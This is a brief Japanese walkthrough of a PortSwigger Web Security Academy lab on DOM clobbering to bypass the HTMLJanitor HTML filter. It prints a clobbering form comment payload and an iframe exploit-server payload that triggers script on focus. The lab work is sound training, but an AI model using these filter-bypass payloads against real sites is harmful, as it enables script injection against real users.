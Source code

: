 # DOM 属性を上書きして HTML フィルターをバイパスする

次のハッキングラボを実施する  
https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters  
このラボでは HTMLJanitor ライブラリを使用しますが、これは DOM 破壊に対して脆弱です。

- 1. BurpSuite を起動して、Proxy タブからブラウザを立ち上げます
- 2. ハッキングラボにアクセスします
- 3. 任意のブログに移動し、次のコメントを書き込みます

```html
<form id="x" tabindex="0" onfocus="print()"><input id="attributes" /></form>
```

- 4. エクスプロイトサーバにボディに次の内容を入力  
     postId はコメントを残したブログの id に合わせる必要があります

```
<iframe src=https://0a610097045aa8a981c684320011002d.web-security-academy.net/post?postId=3 onload="setTimeout(()=>this.src=this.src+'#x',500)">
```

- 5. Save ボタン押下後に Deliver Exploit to victim ボタン押下。
